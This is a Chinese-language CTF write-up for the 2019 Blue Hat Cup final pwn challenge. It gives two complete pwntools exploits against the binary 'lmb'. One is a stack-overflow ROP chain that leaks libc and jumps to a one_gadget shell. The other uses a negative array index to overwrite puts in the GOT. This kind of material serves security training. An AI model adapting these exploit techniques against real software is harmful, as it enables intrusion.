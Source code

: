 # 2019蓝帽杯决赛pwn
## Exploit 0x1 ：栈溢出  
自动攻打后提交flag的脚本这里就不挂啦  
  
这道题目明显就是三道毫不相关的题目拼起来的（学长陈述）  

第一个功能getname，明显的栈溢出，甚至还有格式化字符串。  
正常的利用当然是
* 泄露libc基址  
* puts(puts_addr) OR 格式化字符串
* ret2libc :
* system(/bin/sh) OR one_gadget  
  

~~~python
from pwn import *
#from LibcSearcher import LibcSearcher
context.log_level='debug'

r = process('./lmb')
e = ELF('./lmb')
# gdb.attach(r,"b*0x00400E2c")
puts_plt = e.plt['puts']
puts_got = e.got['puts']
success(hex(puts_plt))
success(hex(puts_got))

pop_rdi = 0x401213
getname = 0x400DFD
onegadget = [0x45216,0x4526a,0xf02a4,0xf1147]
# gdb.attach(r,"b*0x400E9D")

payload = 'a' * 0x28 + p64(pop_rdi)+ p64(puts_got) + p64(puts_plt) + p64(getname)
# payload = payload.ljust(0x90, "0")

r.sendlineafter('choice:','1')
r.sendlineafter('your name','laichick')
r.recvuntil('keyword?')
r.sendline(payload)
r.recvuntil("fail\n")
puts_addr = u64(r.recv(6).ljust(8,'\x00'))
success("puts_addr   " + hex(puts_addr))

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc_base = puts_addr - libc.symbols["puts"]
system_addr = libc_base + libc.symbols["system"]
binsh_addr = libc_base + next(libc.search("/bin/sh"))
onegadget_addr = libc_base + onegadget[3]
# libc = LibcSearcher('puts', puts_addr)
# libcbase = puts_addr - libc.dump('puts')
# system_addr = libcbase + libc.dump('system')
# binsh_addr = libcbase + libc.dump('str_bin_sh')
# r.sendlineafter('choice:','1')

# payload = 'a' * 0x28  + p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)
payload = 'a' * 0x28 + p64(onegadget_addr)
# payload = payload.ljust(0x90,"\x00")
r.sendlineafter('your name','laichick')
r.recvuntil('keyword?')
r.sendline(payload)

r.interactive()
~~~

## Exploit 0x2 : 数组溢出  
* 在函数edit(),show()中没有对数组的下界做检查。  
* bss段上,name与结构体非常接近
* 伪造一个结构体，写入自己想要的地址，完成任意地址读写的功能。
* show()读出puts_addr
* edit()修改puts_addr为one_gadget地址  


~~~python
from pwn import *
#from LibcSearcher import LibcSearcher
# context.log_level='debug'

r = process('./lmb')
e = ELF('./lmb')

onegad = [0x45216,0x4526a,0xf02a4,0xf1147]
puts_got = e.got['puts']
success(hex(puts_got))

def enter():
	r.sendlineafter("heap\nchoice:","3")
	r.recvuntil("name\n")
	name = p32(puts_got)+p32(0)+p32(100)+p32(1)
	r.sendline(name)

def add(size):
	r.sendline("1")
	r.recvuntil('size:')
	r.sendline(str(size))

def show(index):
	r.sendline('2')
	r.recvuntil('index:')
	r.sendline(str(index))


def edit(index,content):
	r.sendlineafter("choice","3")
	r.recvuntil('index:')
	r.sendline(str(index))
	r.recvuntil('content:')
	r.sendline(content)
# gdb.attach(r,"b*0x0400B49")

enter()
show(-6)
puts_addr = u64(r.recv(6).ljust(8,'\x00'))
log.info(hex(puts_addr))

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc_base = puts_addr - libc.symbols["puts"]
onegad_addr = libc_base + onegad[0]

edit(-6,p64(onegad_addr))
r.interactive()
~~~